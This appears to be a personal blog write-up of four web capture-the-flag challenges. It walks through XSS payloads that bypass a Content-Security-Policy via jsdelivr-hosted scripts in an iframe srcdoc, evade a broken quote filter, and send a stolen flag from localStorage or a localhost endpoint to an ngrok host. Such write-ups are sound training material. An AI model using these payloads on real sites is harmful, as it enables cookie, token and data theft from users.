










import Figure from '../../../components/Figure.astro';
import airbnb from './airbnb.png';




Polygl0ts just posted the announcement above on their Discord server! And since I really want to go to DEF CON, here's a write-up of all the web CTFs from Friday's challenges! I already did them last year but it's always fun to do them again.




## CDN

Let's start with CDN!

> Trigger warning: yes, I'm on MacOS, and if that's a problem for you we can discuss it on Discord @androz2091 :)

```
poca@pocas-MacBook-Pro-2 cdn % tree
.
├── __pycache__
│   └── bot.cpython-310.pyc
├── app.py
├── bot.py
├── docker-compose.yml
├── Dockerfile
├── requirements.txt
├── static
│   ├── main.js
│   └── style.css
└── templates
    └── index.html

4 directories, 9 files
poca@pocas-MacBook-Pro-2 cdn %
```

It looks like we have all the source code of the app and a live instance to hack (https://cdn-dc0k4gw8wcscgs0k84ckcg44.polygl0ts.manaf.ch).

That's convenient, we can replicate our solution locally. Glancing at the Python code, it seems safe to execute (I'm a bit traumatized after Insomni'hack 2025 where a challenge executed outside a sandbox sent a request that triggered a "shame" sound through a speaker lol).

Anyway, let's start by running the docker compose.

While typing in the text area, the URL updates, and the `main.js` code clearly shows that the URL's content is initially loaded:
```js
const urlParams = new URLSearchParams(window.location.search);
const searchTerm = urlParams.get('search');
if (searchTerm) {
    searchInput.value = decodeURIComponent(searchTerm);
    updateSearch()
} else {
    displayComments(comments);
}
```

It's almost certainly an XSS injection. We see that the Python code is for a server with two endpoints:
- `/`, which serves the content
- `/report`, which takes a URL as a parameter and sends a bot to it.

We probably need to give the bot a URL with a malicious search parameter.

That's also what the bot's code suggests:

```py
# Go to the site
driver.get(f"http://localhost:{PORT}")
# Wait for the page to load
driver.implicitly_wait(1)
# Set the flag in local storage
driver.execute_script(f"window.localStorage.setItem('flag','{FLAG}');")

# Visit the URL
driver.get(url)
```

First, it visits the server's `/` page, sets the flag there, and then our URL. So, our URL must be the same `/` page with a malicious parameter to extract the dropped flag.

I'd try to make the bot send a request to a server I control to retrieve the token.

But before that, let's see if loading the page myself makes a request to my local server via a basic inline script:
```html

```

First problem!

> Content-Security-Policy: The page’s settings blocked an inline script (script-src-elem) from being executed because it violates the following directive: “default-src http://cdn.jsdelivr.net 'self'”. Consider using a hash ('sha256-f7e2FzTlLBcKV18x7AY/5TeX5EoQtT0BZxrV1/f1odI=') or a nonce.

Okay, two issues I hadn't spotted reading the HTML initially:
- The script only accepts scripts from jsdelivr. Fortunately, serving arbitrary code via jsdelivr is super simple (there's literally a page dedicated to it on their site: https://www.jsdelivr.com/github) ! Thus, I have my payload accessible at `https://cdn.jsdelivr.net/gh/Androz2091/polygl0ts-28-1@main/payload7.js`.
- Then, `img` won't work, because the page doesn't allow inline scripts

The trick is to use `iframe` with a `srcdoc` (Manaf taught me that directly haha):
```html
<iframe srcdoc='<script src="https://cdn.jsdelivr.net/gh/Androz2091/polygl0ts-28-1@main/payload7.js"></script>'></iframe>
```

We have our first request!


Now let's send it to the `/report` endpoint:
```js
const payload = `<iframe srcdoc='<script src="https://cdn.jsdelivr.net/gh/Androz2091/polygl0ts-28-1@main/payload7.js"></script>'></iframe>`
const inner = `http://localhost:9007/?search=${encodeURIComponent(payload)}`
const report = new URL(
  "https://cdn-dc0k4gw8wcscgs0k84ckcg44.polygl0ts.manaf.ch/report",
)
// const report = new URL("http://localhost:9007/report")
report.searchParams.set("url", inner)
fetch(report)
```

with the following payload:
```js
window.top.location.href = "https://17b9-161-115-51-75.ngrok-free.app/" + localStorage.getItem('flag');
```

And it's done!



Let's continue!



## getFlag

```
poca@pocas-MacBook-Pro-2 getFlag % tree
.
├── app.py
├── bot.py
├── docker-compose.yml
├── Dockerfile
├── requirements.txt
└── templates
    └── index.html

2 directories, 6 files
poca@pocas-MacBook-Pro-2 getFlag %
```

It's pretty much the same site, except the bot no longer drops the flag in local storage, and there's a new `getFlag` endpoint:

```py
@app.route('/getFlag', methods=['GET', 'POST'])
def getFlag():
    if request.remote_addr != '127.0.0.1':
        return 'Error: Access Denied!'
    if request.method != 'POST':
        return 'Error: Invalid Method!'
    if request.json.get('giveMe') != 'theFlag':
        return 'Error: Invalid Request!'
    return FLAG
```

This endpoint expects a local POST request with a JSON payload `giveMe` equal to `theFlag`. I think we just need to modify the script to make this request and then do the `window.location` trick to ngrok?

```js
fetch("http://localhost:9007/getFlag", {
  method: "POST",
  headers: {
    "Content-Type": "application/json"
  },
  body: JSON.stringify({
    giveMe: "theFlag"
  })
})
.then(res => res.text())
.then(flag => window.top.location.href = "https://17b9-161-115-51-75.ngrok-free.app/" + flag);
```

Nice! After a few silly errors, it works! (By silly errors, I mean forgetting to change the ports that Manaf changed from `9007` to `9003` for example)



Let's continue!




## IMDB

Loading the site (https://app-y44s0owgwwowok0kgk8k8o08.polygl0ts.manaf.ch/), we land on the following page:



And by clicking the submit button, we see a request going out:

```sh
curl 'https://app-y44s0owgwwowok0kgk8k8o08.polygl0ts.manaf.ch/visit' \
  -X POST \
  -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:151.0) Gecko/20100101 Firefox/151.0' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  -H 'Accept-Encoding: gzip, deflate, br, zstd' \
  -H 'Referer: https://app-y44s0owgwwowok0kgk8k8o08.polygl0ts.manaf.ch/' \
  -H 'Content-Type: application/json' \
  -H 'Origin: https://app-y44s0owgwwowok0kgk8k8o08.polygl0ts.manaf.ch' \
  -H 'Alt-Used: app-y44s0owgwwowok0kgk8k8o08.polygl0ts.manaf.ch' \
  -H 'Connection: keep-alive' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'Priority: u=0' \
  -H 'Pragma: no-cache' \
  -H 'Cache-Control: no-cache' \
  --data-raw '{"url":"https://app-y44s0owgwwowok0kgk8k8o08.polygl0ts.manaf.ch/"}'
```

(I grabbed it via inspector > network > copy as cURL)

It seems that we can make a bot visit a URL...?
By typing something in the search bar, we see that the URL updates like for CDN.
Maybe the bot does the same as CDN and leaves the flag in localStorage?

Let's reuse the same payload:
```js
const payload = `<iframe srcdoc='<script src="https://cdn.jsdelivr.net/gh/Androz2091/polygl0ts-28-1@main/payload7.js"></script>'></iframe>`

const inner = `https://app-y44s0owgwwowok0kgk8k8o08.polygl0ts.manaf.ch/?search=${encodeURIComponent(payload)}`

const res = await fetch(
  "https://app-y44s0owgwwowok0kgk8k8o08.polygl0ts.manaf.ch/visit",
  {
    method: "POST",
    headers: {
      "Content-Type": "application/json"
    },
    body: JSON.stringify({
      url: inner,
    }),
  },
)

console.log(await res.text())
```

Yep, there we go!!

Let's continue (I have 11% battery left to succeed in the last challenge haha!)



## IMDB 2

Okay, this time we switched to NodeJS nice! (this nice is sincere but will disqualify me from the DEF CON selection lol)

```
poca@pocas-MacBook-Pro-2 ctf-challenge % tree
.
├── bot
│   ├── bot.js
│   ├── Dockerfile
│   ├── index.html
│   ├── package.json
│   └── pnpm-lock.yaml
├── docker-compose.yml
└── README.md

2 directories, 7 files
poca@pocas-MacBook-Pro-2 ctf-challenge %
```

It's the same principle, but this time the bot goes to an unknown `CHALLENGE_URL` page and leaves the cookie there.

```js
const context = await browser.newContext();
const page = await context.newPage();

// Visit the challenge website first
await page.goto(CHALLENGE_URL);

// Set the flag in localStorage
await page.evaluate((flag) => {
    localStorage.setItem('flag', flag);
}, FLAG);

// Navigate to the user's URL
await page.goto(url);
```

Okay, some hypotheses for `CHALLENGE_URL`:
- The base app URL, which is https://app-ygg44o84ck8okk8ggkk0ckws.takeru.manaf.ch/
- The local app URL, which is http://localhost:1337

I just tried both, and it doesn't work!
Reading the JS code..., we see the quotes are escaped!

```js
// no quotes >:/
searchDisplay.innerHTML = searchTerm.replace(/['"`]/, "");
```

(after spending some time on it, I realize the comment is quite tricky, it's missing `\g` and only the first quote is escaped :)

```js
const payload = `"<iframe srcdoc='<script src="https://cdn.jsdelivr.net/gh/Androz2091/polygl0ts-28-1@main/payload7.js"></script>'></iframe>`

const inner = `https://app-ygg44o84ck8okk8ggkk0ckws.takeru.manaf.ch/?search=${encodeURIComponent(payload)}`

const res = await fetch(
  "https://app-ygg44o84ck8okk8ggkk0ckws.takeru.manaf.ch/visit",
  {
    method: "POST",
    headers: {
      "Content-Type": "application/json",
    },
    body: JSON.stringify({
      url: inner,
    }),
  },
)

console.log(await res.text())
```

The above code works!



Alright, for any questions I'm on Discord, and you can contact me pretty much anywhere by clicking on https://androz2091.fr!
